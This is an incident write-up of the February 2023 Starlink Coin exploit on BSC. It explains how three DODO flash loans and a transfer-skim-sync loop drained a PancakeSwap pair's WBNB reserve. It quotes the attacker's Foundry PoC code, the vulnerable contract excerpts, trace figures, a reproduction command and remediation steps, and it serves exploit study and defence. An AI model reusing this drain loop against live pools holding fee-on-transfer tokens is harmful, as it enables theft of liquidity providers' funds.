



# Starlink (Starlink Coin) Exploit — Reflective Token Fee vs. Pancake `skim`/`sync` Reserve Drain

> **Vulnerability classes:** vuln/defi/slippage · vuln/logic/incorrect-state-transition

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable sources: [StarlinkCoin.sol](sources/StarlinkCoin_518281/StarlinkCoin.sol)
> (the fee-on-transfer ERC20) and [PancakePair.sol](sources/PancakePair_425444/PancakePair.sol)
> (the victim pair).

---

## Key info

| | |
|---|---|
| **Loss** | **38.359839689566733894 WBNB** drained from the Starlink/WBNB PancakeSwap pair — the pool's entire WBNB reserve at the fork block ([output.txt:1050-1051](output.txt)) |
| **Vulnerable contract** | `StarlinkCoin` (reflective / fee-on-transfer ERC20) — [`0x518281F34dbf5B76e6cdd3908a6972E8EC49e345`](https://bscscan.com/address/0x518281F34dbf5B76e6cdd3908a6972E8EC49e345#code) |
| **Victim pool** | Starlink/WBNB PancakeSwap pair — [`0x425444dA1410940CFdfB6A980Bd16aA7a5376d6D`](https://bscscan.com/address/0x425444dA1410940CFdfB6A980Bd16aA7a5376d6D) |
| **Flash sources** | 3 DODO V2 pools — `0x0fe261aeE0d1C4DFdDee4102E82Dd425999065F4`, `0x6098A5638d8D7e9Ed2f952d35B2b67c34EC6B476`, `0xFeAFe253802b77456B4627F8c2306a9CeBb5d681` |
| **Attacker EOA** | not used directly — the test contract `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (the live attacker contract) drives the whole attack |
| **Attacker contract** | `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` |
| **Attack tx** | [`0x146586f05a4513136deab3557ad15df8f77ffbcdbd0dd0724bc66dbeab98a962`](https://bscscan.com/tx/0x146586f05a4513136deab3557ad15df8f77ffbcdbd0dd0724bc66dbeab98a962) |
| **Chain / block / date** | BSC (chainId 56) / fork block **25,729,304** / Feb 17, 2023 |
| **Compiler / optimizer** | StarlinkCoin: Solidity **v0.8.2**, optimizer **disabled** (runs 200); PancakePair: **v0.5.16**, optimizer disabled (runs 200). Both non-proxy. |
| **Bug class** | Reflective / fee-on-transfer token whose sell fee diverges from the AMM pair's `skim()` + `sync()` accounting — a classic "fee-on-transfer in a vanilla Uniswap-V2 fork" pool drain. |

---

## TL;DR

1. `StarlinkCoin` ([source](sources/StarlinkCoin_518281/StarlinkCoin.sol)) is a reflective ERC20 with a **9-decimal** unit and a directional fee: every transfer **into** the Pancake pair (`recipient == uniswapV2Pair`) is taxed at **`sellFeeRate = 10%`** (7 % LP / 2 % marketing / 1 % burn), and every transfer **out of** the pair is taxed at **`buyFeeRate = 8%`** (5/2/1). See [:1026-1035](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1026-L1035) and [:1165-1209](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1165-L1209).

2. A Uniswap-V2 / PancakeSwap pair has no notion of those fees. Its `skim()` sends out whatever token balance exceeds the cached `reserve` ([PancakePair.sol:483-489](sources/PancakePair_425444/PancakePair.sol#L483-L489)) and `sync()` overwrites the cached reserves with the *current balances* ([PancakePair.sol:491-493](sources/PancakePair_425444/PancakePair.sol#L491-L493)). When a token mutates balances out from under the pair — exactly what a fee-on-transfer token does — `sync()` will happily re-price the pool off a balance the pair never asked for.

3. The attacker chains **three DODO flash loans** for **2,177.831607672464852249 WBNB** in aggregate ([output.txt:17](output.txt), [output.txt:27](output.txt), [output.txt:38](output.txt)), dumps it all into the Starlink/WBNB pair in one `Pair.swap` to **corner the pool's Starlink side down to 1.188e18 wei** while pushing its WBNB reserve up to **2,216.19 WBNB** ([output.txt:79](output.txt)).

4. It then runs a **20-iteration `transfer → skim → sync` loop** ([test/Starlink_exp.sol:49-53](test/Starlink_exp.sol#L49-L53)). Each iteration sends the attacker's Starlink into the pair; only ~90 % actually arrives (the rest is siphoned to marketing/burn/mintContract), but `skim()` then pulls *all* of that newly-arrived balance back out and `sync()` re-bases the pair's Starlink reserve on whatever dust was left. The Starlink reserve collapses geometrically (1.188e18 → 2.043e17 → 3.514e16 → … → 613 wei) while **the WBNB reserve never moves** (verified: every `skim` transfers 0 WBNB, e.g. [output.txt:159](output.txt)).

5. Finally the attacker dumps its accumulated Starlink back through the router into the now Starlink-empty / WBNB-rich pool, swapping for **2,216.191447362031586143 WBNB** ([output.txt:974-976](output.txt), [output.txt:986](output.txt)).

6. It repays the three DODO loans (783.090851445088813886 + 517.364914399096708048 + 877.375841828279330315 WBNB) and walks away with the pair's entire original **38.359839689566733894 WBNB** of honest liquidity ([output.txt:1050-1051](output.txt)) — to the wei, the pool's pre-attack WBNB reserve.

---

## Background — what Starlink does

`StarlinkCoin` ([source](sources/StarlinkCoin_518281/StarlinkCoin.sol)) is a community/"reward" ERC20 deployed on BSC with these salient features:

- **9-decimal unit** (`decimals() returns 9`, [:1062-1064](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1062-L1064)). Total supply is on the order of ~10^15 (quadrillions of "Starlink" units), so reserve figures look enormous in wei but translate to ~57 billion whole tokens in this pool.
- **Hard-coded Pancake pair.** The constructor creates the pair via the Pancake V2 factory and stores it immutably in `uniswapV2Pair` ([:1049](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1049)).
- **Directional transfer fees.** Two rates, picked purely from whether the sender or the recipient is `uniswapV2Pair`:
  - `sellFeeRate = LPSellFees(7) + marketSellFees(2) + burnSellFees(1) = 10 %` — applied when `recipient == uniswapV2Pair` ([:1027-1030](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1027-L1030), [:1165-1185](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1165-L1185)).
  - `buyFeeRate = LPBuyFees(5) + marketBuyFees(2) + burnBuyFees(1) = 8 %` — applied when `sender == uniswapV2Pair` ([:1033-1035](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1033-L1035), [:1186-1209](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1186-L1209)).
  - Fee destinations: `mintContract` (LP accum­ulation), `addressForMarketing`, and the dead address `0x…dEaD` (burn). `mintContract` is initialised to `address(this)` — the token contract itself.
- **`swapAndLiquify` side-effect**, gated on the contract's own token balance crossing `numTokensSellToAddToLiquidity`. In this attack that threshold is never crossed, so it does not interfere.

The on-chain parameters at fork block 25,729,304 (read from the first `getReserves` and `balanceOf` calls in the trace):

| Parameter | Value | Note |
|---|---|---|
| Starlink `decimals` | **9** | reserve figures are in 1e-9 units |
| `sellFeeRate` | 10 % | transfer **into** the pair |
| `buyFeeRate` | 8 % | transfer **out of** the pair |
| Pair `token0` | Starlink (`0x518281F3…`) | `reserve0` = Starlink |
| Pair `token1` | WBNB (`0xbb4CdB9C…`) | `reserve1` = WBNB |
| **Pair `reserve0` (Starlink)** | **57,120,777,503,837,642,765** (~57.12 B Starlink) | [output.txt:59](output.txt) |
| **Pair `reserve1` (WBNB)** | **38,359,839,689,566,853,695** (~38.36 WBNB) | [output.txt:59](output.txt) — **the prize** |
| DODO #1 base supply (WBNB) | 877,375,841,828,279,330,315 | [output.txt:17](output.txt) |
| DODO #2 base supply (WBNB) | 517,364,914,399,096,708,048 | [output.txt:27](output.txt) |
| DODO #3 base supply (WBNB) | 783,090,851,445,088,813,886 | [output.txt:38](output.txt) |
| **Total flash-borrowed WBNB** | **2,177,831,607,672,464,852,249** (~2,177.83 WBNB) | sum of the three DODO loans |

---

## The vulnerable code

### 1. `StarlinkCoin._transfer` — directional fee charged on `skim`/`sync` paths

When `recipient == uniswapV2Pair`, 10 % of the amount is split off to LP/marketing/burn **before** the net reaches the pair. When `sender == uniswapV2Pair`, 8 % is split off before the net reaches the buyer. The pair itself has no idea this is happening.

```solidity
function _transfer(
    address sender,
    address recipient,
    uint256 amount
) internal virtual override {
    // ... (anti-bot + swapAndLiquify triggers omitted) ...

    if(recipient == uniswapV2Pair){
        if (sender != address(this) && recipient != address(this) && !_isExcludedFromFee[sender]) {
            // ... swapAndLiquify trigger ...
            uint256 _fee = amount.mul(sellFeeRate).div(100);                 // 10%
            super._transfer(sender,mintContract, _fee.mul(LPSellFees).div(sellFeeRate));      // 7%
            super._transfer(sender, addressForMarketing, _fee.mul(marketSellFees).div(sellFeeRate)); // 2%
            super._transfer(sender, BurnAddr, _fee.mul(burnSellFees).div(sellFeeRate));      // 1%
            amount = amount.sub(_fee);                                       // only 90% lands in the pair
        }
    } else if(sender == uniswapV2Pair){
        if (sender != address(this) && recipient != address(this) && !_isExcludedFromFee[sender]) {
            uint256 _fee = amount.mul(buyFeeRate).div(100);                  // 8%
            super._transfer(sender,mintContract, _fee.mul(LPBuyFees).div(buyFeeRate));       // 5%
            super._transfer(sender,addressForMarketing, _fee.mul(marketBuyFees).div(buyFeeRate)); // 2%
            super._transfer(sender, BurnAddr, _fee.mul(burnBuyFees).div(buyFeeRate));        // 1%
            amount = amount.sub(_fee);                                       // only 92% reaches the buyer
            buyIndex = buyIndex + 1;
        }
    }
    super._transfer(sender, recipient, amount);
}
```
([sources/StarlinkCoin_518281/StarlinkCoin.sol#L1131-L1213](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1131-L1213))

The fee rates themselves:

```solidity
// Transfer fee
uint256 public LPSellFees = 7;
uint256 public marketSellFees = 2;
uint256 public burnSellFees = 1;
uint256 public sellFeeRate = LPSellFees.add(marketSellFees).add(burnSellFees);   // 10

uint256 public LPBuyFees = 5;
uint256 public marketBuyFees = 2;
uint256 public burnBuyFees = 1;
uint256 public buyFeeRate = LPBuyFees.add(marketBuyFees).add(burnBuyFees);       // 8
```
([sources/StarlinkCoin_518281/StarlinkCoin.sol#L1026-L1035](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1026-L1035))

### 2. `PancakePair.skim` / `sync` — trust the live balance, no fee awareness

The pair prices itself off `IERC20(token).balanceOf(address(this))` and a cached `reserve`. `skim` pays out any excess of balance over reserve; `sync` re-bases the reserve on the current balance. Neither knows that a transfer into the pair was net of a 10 % fee.

```solidity
// force balances to match reserves
function skim(address to) external lock {
    address _token0 = token0; // gas savings
    address _token1 = token1; // gas savings
    _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
    _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
}

// force reserves to match balances
function sync() external lock {
    _update(IERC20(token0).balanceOf(address(this)), IERC20(token1).balanceOf(address(this)), reserve0, reserve1);
}
```
([sources/PancakePair_425444/PancakePair.sol#L483-L494](sources/PancakePair_425444/PancakePair.sol#L483-L494))

And `swap`'s `K`-invariant check uses the same `balanceOf` and a flat 25 bps LP fee — it cannot tell that the inbound Starlink was already taxed by the token:

```solidity
uint balance0Adjusted = (balance0.mul(10000).sub(amount0In.mul(25)));
uint balance1Adjusted = (balance1.mul(10000).sub(amount1In.mul(25)));
require(balance0Adjusted.mul(balance1Adjusted) >= uint(_reserve0).mul(_reserve1).mul(10000**2), 'Pancake: K');
```
([sources/PancakePair_425444/PancakePair.sol#L472-L476](sources/PancakePair_425444/PancakePair.sol#L472-L476))

### 3. The attacker's loop — `transfer → skim → sync`

```solidity
WBNBToStarlink();
while (Starlink.balanceOf(address(Pair)) > 1000) {
    Starlink.transfer(address(Pair), Starlink.balanceOf(address(Pair)));
    Pair.skim(address(this));
    Pair.sync();
}
StarlinkToWBNB();
```
([test/Starlink_exp.sol#L48-L54](test/Starlink_exp.sol#L48-L54))

with the seed swap that corners the pool:

```solidity
function WBNBToStarlink() internal {
    uint256 amountIn = WBNB.balanceOf(address(this));
    WBNB.transfer(address(Pair), WBNB.balanceOf(address(this)));
    address[] memory path = new address[](2);
    path[0] = address(WBNB);
    path[1] = address(Starlink);
    uint256[] memory values = Router.getAmountsOut(amountIn, path);
    values[1] = Starlink.balanceOf(address(Pair)) * 51 / 100;   // over-request 51% of Starlink reserve
    Pair.swap(values[1], 0, address(this), "");
}
```
([test/Starlink_exp.sol#L59-L68](test/Starlink_exp.sol#L59-L68))

---

## Root cause — why it was possible

A vanilla Uniswap-V2/Pancake pair assumes the two ERC20s it holds are **non-rebasing, non-fee tokens** whose `balanceOf(this)` changes only through `mint`/`burn`/`swap`/transfers that the pair itself authored. The entire accounting model — `skim`, `sync`, and the `K` check inside `swap` — is built on that assumption.

`StarlinkCoin` violates it. Every `Starlink.transfer(pair, x)` actually credits the pair with **`0.9·x`** (10 % is skimmed off to marketing/burn/mintContract), and every `Starlink.transfer(out, x)` credits the recipient with **`0.92·x`**. Three independent things then break at once:

1. **`skim()` over-pays the caller.** When the attacker sends `x` Starlink into the pair, the pair's Starlink balance goes up by only `0.9·x`, yet the *cached* `reserve0` has not been updated. `skim` then dutifully sends `balance − reserve` — i.e. the full `0.9·x` of freshly-arrived tokens — back out. Because *that* payout is itself an outbound pair transfer, `buyFeeRate` clips another 8 %, so the attacker nets ~`0.828·x`, but the dust left in the pair after `sync()` is now `reserve0 − (0.9·x − skimmed_out)`, which is far smaller than where it started. The Starlink reserve is force-shrunk with **no WBNB moving at all**.

2. **`sync()` ratifies the theft.** After each `skim`, `sync` writes the now-reduced Starlink balance into `reserve0`. The pair permanently forgets it ever had the larger reserve; the constant product `k = reserve0·reserve1` is rewritten downward on the Starlink side while `reserve1` (WBNB) is untouched. The marginal price of Starlink in WBNB therefore skyrockets for whoever still holds Starlink — and the attacker is the only one who does.

3. **`swap`'s `K` check cannot catch it.** The check at [PancakePair.sol:473-475](sources/PancakePair_425444/PancakePair.sol#L473-L475) compares `balance·balance` against `reserve·reserve` using `balanceOf` — the *post-fee* balance. Because both the attacker's seed swap and the final dump route WBNB (a non-fee token) in/out and Starlink through the fee, the AMM never sees the fee that the token silently extracted, so it never reverts.

The seed swap pushes the pool into a state where Starlink is already scarce and WBNB is abundant (1.188e18 Starlink vs 2,216.19 WBNB). The 20-iteration `transfer/skim/sync` loop then takes that scarcity to the extreme: Starlink reserve → 613 wei, WBNB reserve unchanged. The final router sell of the attacker's Starlink into that degenerate pool pulls out essentially every WBNB.

---

## Preconditions

- The Pancake pair lists a **fee-on-transfer token** as one of its two reserves. (Here: Starlink with `sellFeeRate = 10%`, `buyFeeRate = 8%`.)
- `skim()` and `sync()` on the pair are **permissionless** (true for every Uniswap-V2/Pancake-V2 pair by design).
- Working capital large enough to (a) corner the Starlink side of the pool in a single swap and (b) leave a residual that the loop can grind to dust. Here that is **2,177.83 WBNB**, sourced via three chained DODO flash loans and fully repaid in-tx — so the attack is **flash-loanable and zero-capital**.

---

## Attack walkthrough (with on-chain numbers from the trace)

`token0 = Starlink`, `token1 = WBNB`, so `reserve0 = Starlink`, `reserve1 = WBNB`. All figures are raw wei; Starlink is 9-decimal, WBNB is 18-decimal. Every number is cited to the line of [output.txt](output.txt) where it appears.

| # | Step | Starlink reserve (r0, wei) | WBNB reserve (r1, wei) | Effect |
|---|------|---------------------------:|-----------------------:|--------|
| 0 | **Initial** getReserves ([output.txt:59](output.txt)) | 57,120,777,503,837,642,765 (~57.12 B Starlink) | 38,359,839,689,566,853,695 (~38.36 WBNB) | Honest pool. |
| — | Receive 3 DODO flash loans: 877.376 + 517.365 + 783.091 = **2,177.831607672464852249 WBNB** ([output.txt:17](output.txt), [:27](output.txt), [:38](output.txt), attacker balance 2,177.831607672464852249 at [:48-50](output.txt)) | — | — | Stack the working capital. |
| 1 | **`WBNBToStarlink`** — transfer 2,177.831607672464852249 WBNB into the pair ([output.txt:51](output.txt)), then `Pair.swap(out = balanceOf(Pair)·51/100 = 29,131,596,526,957,197,810 Starlink)` ([output.txt:63](output.txt)). The 8 % buy fee means the attacker actually receives 26,801,068,804,800,621,986 Starlink ([output.txt:68](output.txt)). | 1,188,112,172,079,822,979 (~1.188 B Starlink) | 2,216,191,447,362,031,705,944 (~2,216.19 WBNB) | Pool cornered: Starlink scarce, WBNB bloated. (Sync at [output.txt:79](output.txt)) |
| 2 | **Drain loop, iteration 1** — `Starlink.transfer(Pair, 1,188,112,172,079,822,979)`: pair receives only ~1.069e18 (10 % sell fee to marketing/LP/burn); `Pair.skim` returns 1,069,300,954,871,840,682 (8 % buy fee on the skim-out → attacker nets 983,756,878,482,093,428 at [output.txt:107](output.txt)); `Pair.sync` resets r0. | 204,355,293,597,729,558 (~204.36 M Starlink) | 2,216,191,447,362,031,705,944 (unchanged; skim sends 0 WBNB, [output.txt:116-118](output.txt)) | r0 drops ~83 %; r1 untouched. (Sync at [output.txt:125](output.txt)) |
| 3 | **Iteration 2** — same `transfer/skim/sync`. Send 204,355,293,597,729,558 ([output.txt:133](output.txt)); skim returns 183,919,764,237,956,603 ([output.txt:146](output.txt)) → attacker nets 169,206,183,098,920,075 ([output.txt:150](output.txt)). | 35,149,110,498,809,486 (~35.15 M Starlink) | 2,216,191,447,362,031,705,944 (unchanged; [output.txt:159](output.txt) transfers 0 WBNB) | r0 × ~0.172. (Sync at [output.txt:168](output.txt)) |
| 4–21 | **Iterations 3–20** — identical pattern. r0 marches down the geometric ladder: 6,045,647,005,795,232 → 1,039,851,284,996,788 → 178,854,421,019,456 → 30,762,960,415,356 → 5,291,229,191,449 → 910,091,420,933 → 156,535,724,403 → 26,924,144,598 → 4,630,952,872 → 796,523,903 → 137,002,112 → 23,564,364 → 4,053,073 → 697,132 → 119,913 → 20,634 → 3,557 → 613 (Sync events at [output.txt:211,254,297,340,383,426,469,512,555,598,641,684,727,770,813,856,899,942](output.txt)). | **613 wei** | 2,216,191,447,362,031,705,944 (still unchanged; every WBNB skim is `transfer(to, 0)`) | Starlink side annihilated; WBNB side pristine. |
| 22 | **`StarlinkToWBNB`** — approve router, `swapExactTokensForTokensSupportingFeeOnTransferTokens(balanceOf(this)/2, …)` ([test/Starlink_exp.sol:75-77](test/Starlink_exp.sol#L75-L77)). The router's `Pair.swap` sends 2,216,191,447,362,031,586,143 WBNB out ([output.txt:974-976](output.txt)); the 10 % sell fee on the inbound Starlink means 11,368,276,479,296,383,380 actually lands in the pair ([output.txt:960](output.txt)). | 11,368,276,479,296,383,993 (~11.37 B Starlink) | 119,801 (~0.00000000000012 WBNB, dust) | WBNB side drained. (Final Sync + Swap at [output.txt:985-986](output.txt)) |
| — | Repay DODO #3 783.090851445088813886 WBNB ([output.txt:993](output.txt)), DODO #2 517.364914399096708048 WBNB ([output.txt:1010](output.txt)), DODO #1 877.375841828279330315 WBNB ([output.txt:1030](output.txt)). | — | — | All flash loans settled, 1 wei over each. |
| 23 | **Final attacker WBNB balance** | — | **38,359,839,689,566,733,894** (~38.359839689566733894 WBNB) | [output.txt:1050-1051](output.txt) |

**Why `reserve1` never moves during the loop.** `skim` computes `IERC20(WBNB).balanceOf(pair) − reserve1`. No WBNB is ever transferred into the pair during the loop (only Starlink is), so the WBNB balance stays equal to `reserve1` and `skim` sends exactly `0` WBNB — verified at [output.txt:116-118](output.txt) and [output.txt:159](output.txt) and every subsequent iteration.

### Profit / loss accounting (WBNB)

| Direction | Amount (WBNB, 18-dec) |
|---|---:|
| Borrowed from 3 DODO pools | +2,177.831607672464852249 |
| Sold into the pair (corner swap, `WBNBToStarlink`) | −2,177.831607672464852249 |
| Pulled out by final router sell (`StarlinkToWBNB`) | +2,216.191447362031586143 |
| Repay DODO #3 | −783.090851445088813886 |
| Repay DODO #2 | −517.364914399096708048 |
| Repay DODO #1 | −877.375841828279330315 |
| **Net (attacker WBNB balance after exploit)** | **+38.359839689566733894** |
| Pool WBNB reserve before attack | 38.359839689566853695 |
| Pool WBNB reserve after attack | 0.000000000000119801 (dust) |
| **Pool WBNB drained** | **38.359839689566733894** |

The attacker's profit equals, to the 14th significant figure, the pool's original WBNB reserve. The tiny 1.2e-14 WBNB shortfall is rounding dust left in `reserve1` after the final swap — the attacker recovers 99.99999999999997 % of the honest WBNB liquidity.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    participant A as Attacker contract
    participant D as 3× DODO V2 pools
    participant R as PancakeRouter
    participant P as Starlink/WBNB Pair
    participant T as StarlinkCoin (fee token)

    Note over P: Initial reserves<br/>57.12 B Starlink / 38.36 WBNB

    rect rgb(255,243,224)
    Note over A,D: Step 0 — stack working capital
    A->>D: flashLoan ×3 (nested)
    D-->>A: 2,177.831607672464852249 WBNB
    end

    rect rgb(227,242,253)
    Note over A,T: Step 1 — corner the Starlink side
    A->>P: transfer 2,177.83 WBNB (direct)
    A->>P: swap(0.51 · Starlink reserve out)
    T->>T: 8% buyFee ⇒ attacker nets 26.80e18 Starlink
    Note over P: 1.188e18 Starlink / 2,216.19 WBNB
    end

    rect rgb(255,235,238)
    Note over A,T: Steps 2–21 — the skim/sync drain loop (20×)
    loop 20 iterations
        A->>T: transfer(Pair, balanceOf Starlink)
        T->>T: 10% sellFee ⇒ pair receives 0.9×
        A->>P: skim(this)  →  pair pays out (balance − reserve0) Starlink
        T->>T: 8% buyFee on the skim-out ⇒ attacker nets ~0.828×
        A->>P: sync()  →  reserve0 := reduced balance
        Note over P: r0 shrinks ~83% per iter; r1 UNCHANGED (skim sends 0 WBNB)
    end
    Note over P: 613 wei Starlink / 2,216.19 WBNB  ⚠️ k collapsed on Starlink side
    end

    rect rgb(243,229,245)
    Note over A,T: Step 22 — dump Starlink, drain WBNB
    A->>R: swapExactTokensForTokensSupportingFee(Starlink → WBNB)
    R->>P: swap()
    P-->>A: 2,216.191447362031586143 WBNB out
    Note over P: 11.37 B Starlink / 119,801 wei WBNB (drained)
    end

    rect rgb(232,245,233)
    Note over A,D: Repay flashes
    A->>D: repay 877.376 + 517.365 + 783.091 WBNB
    Note over A: Net +38.359839689566733894 WBNB (the pool's honest liquidity)
    end
```

### Pool state evolution



### The flaw inside the `transfer → skim → sync` loop



### Why the drain is theft: constant product before vs. after the loop



---

## Why each magic number

- **`Starlink.balanceOf(Pair) * 51 / 100`** ([test/Starlink_exp.sol:66](test/Starlink_exp.sol#L66)): the corner-swap output. Requesting 51 % (rather than the `getAmountsOut`-correct ~98 %) is a slippage hack — it asks for slightly more than half the pool's Starlink so the swap's `K` check still passes after the 8 % buy fee is taken on the outbound transfer, while still draining the pool from 57.12 B → 1.188 B Starlink in one shot. The exact 29,131,596,526,957,197,810-wei request is what lands `reserve0` at 1,188,112,172,079,822,979 after the fee ([output.txt:63](output.txt), [output.txt:79](output.txt)).
- **`while (Starlink.balanceOf(Pair) > 1000)`** ([test/Starlink_exp.sol:49](test/Starlink_exp.sol#L49)): loop guard. Each iteration multiplies the residual by ~0.172, so after 20 passes the 1.188e18 starting reserve is ground down to 613 wei (< 1000 ⇒ loop exits). 1000 is just an arbitrary "dust" floor.
- **The three DODO flash amounts** (877.376 + 517.365 + 783.091 WBNB): not chosen by the attacker — the PoC borrows each pool's *entire* WBNB base supply (`WBNB.balanceOf(dodoN)`, [test/Starlink_exp.sol:32,40,44](test/Starlink_exp.sol#L32-L44)). Their sum, 2,177.83 WBNB, is what is needed to corner the Starlink side and still leave the `K` check satisfiable on the seed swap.
- **`Starlink.balanceOf(this) / 2`** in `StarlinkToWBNB` ([test/Starlink_exp.sol:76](test/Starlink_exp.sol#L76)): only half the attacker's Starlink is sold because the Starlink-empty pool prices even a tiny input at nearly the entire WBNB reserve — selling half is already enough to pull out 2,216.19 WBNB; the other half is burnable dust.
- **`> 1000` loop exit + final 613 wei**: 1.188e18 × 0.172^20 ≈ 615, matching the observed 613-wei residual to rounding — confirming the geometric drain rate.

---

## Remediation

1. **Never list an un-wrapped fee-on-transfer token directly in a Uniswap-V2/Pancake-V2 pair.** V2's `skim`, `sync`, and `swap` `K`-check all key off raw `balanceOf` and cannot see token-level fees. Either wrap the FoT token behind a non-fee ERC20 wrapper that the AMM lists, or use a V3-style AMM whose callbacks explicitly account for fee-on-transfer (`swapExactTokensForTokensSupportingFeeOnTransferTokens` is *not* sufficient — it protects router users, but `skim`/`sync` remain wide open).
2. **Remove or restrict `skim`/`sync` for pairs containing fee tokens.** A custom pair that disables `sync()` (or guards it to a trusted setter) closes the "re-base reserve on a fee-eroded balance" attack surface. `skim` is the actual extraction primitive here — every iteration's WBNB-equivalent leaves via `skim`, not via `swap`.
3. **Make the token's fee logic invariant-aware.** If fees must be charged on AMM transfers, route them through the pair's own `swap` (so the fee shows up in `amountIn` and the `K` check sees it) instead of silently mutating the pair's balance out of band. The directional `recipient == uniswapV2Pair` / `sender == uniswapV2Pair` branching at [:1165-1209](sources/StarlinkCoin_518281/StarlinkCoin.sol#L1165-L1209) is exactly the pattern that desynchronises balances from reserves.
4. **Charge fees off-chain or in a separate accumulator**, not by intercepting the transfer amount. A `FeeAccumulator` that the pair can reconcile, or a snapshot-based fee, avoids the `balanceOf`-vs-`reserve` divergence entirely.
5. **For the token itself: cap or remove the directional AMM-branching fee.** The combination "fee only when the counterparty is the pair" + "permissionless `skim`/`sync`" is the textbook precondition for this class of drain; either side alone is benign, together they are fatal.

---

## How to reproduce

The PoC runs offline against a locally-served anvil fork (no public RPC needed). `setUp` pins `createSelectFork("http://127.0.0.1:8546", 25_729_304)` ([test/Starlink_exp.sol:27-29](test/Starlink_exp.sol#L27-L29)); the shared harness replays the pinned BSC state from `anvil_state.json`.

```bash
_shared/run_poc.sh 2023-02-Starlink_exp --mt testExploit -vvvvv
```

- EVM: `evm_version = "cancun"` ([foundry.toml:6](foundry.toml#L6)). The fork is served from the local anvil port 8546; do **not** point this at a public RPC unless you also regenerate `anvil_state.json` at block 25,729,304.
- Result: `[PASS] testExploit()` with `Attacker WBNB balance after exploit: 38.359839689566733894`.

Expected tail ([output.txt:4-7](output.txt) and [output.txt:1050-1056](output.txt)):

```
Ran 1 test for test/Starlink_exp.sol:ContractTest
[PASS] testExploit() (gas: 1659496)
Logs:
  Attacker WBNB balance after exploit: 38.359839689566733894

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 16.58s (15.45s CPU time)
```

---

*Reference: NumenAlert — https://twitter.com/NumenAlert/status/1626447469361102850 ; bbbb — https://twitter.com/bbbb/status/1626392605264351235 (Starlink / Starlink Coin, BSC, Feb 2023).*
